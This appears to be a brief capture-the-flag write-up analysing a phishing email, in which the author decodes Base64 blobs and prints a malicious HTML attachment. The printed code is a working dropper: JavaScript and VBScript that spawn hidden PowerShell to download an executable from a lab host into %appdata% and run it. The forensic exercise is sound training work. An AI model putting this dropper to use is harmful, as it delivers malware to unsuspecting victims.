

## Description



## Thought process

Extracting the zip file gave me access to an email message file.


Using `strings` on the file, I noticed two Base64 blobs.


Decoding the blobs yielded a message.


I also found an attachment with malicious JavaScript that calls PowerShell to download an executable file.


```html
<html>
<head>
<title></title>
<body>
<script language="JavaScript" type="text/javascript">
document.write(unescape('<html>
<head>
<title> >_ </title>
<center><h1>404 Not Found</h1></center>
<script language="VBScript">
Sub window_onload
	const impersonation = 3
	Const HIDDEN_WINDOW = 12
	Set Locator = CreateObject("WbemScripting.SWbemLocator")
	Set Service = Locator.ConnectServer()
	Service.Security_.ImpersonationLevel=impersonation
	Set objStartup = Service.Get("Win32_ProcessStartup")
	Set objConfig = objStartup.SpawnInstance_
	Set Process = Service.Get("Win32_Process")
	Error = Process.Create("cmd.exe /c powershell.exe -windowstyle hidden (New-Object System.Net.WebClient).DownloadFile('https://standunited.htb/online/forms/form1.exe','%appdata%\form1.exe');Start-Process '%appdata%\form1.exe';$flag='HTB{REDACTED}", null, objConfig, intProcessID)
	window.close()
end sub
</script>
</head>
</html>
'));
</script>
</body>
</html>
```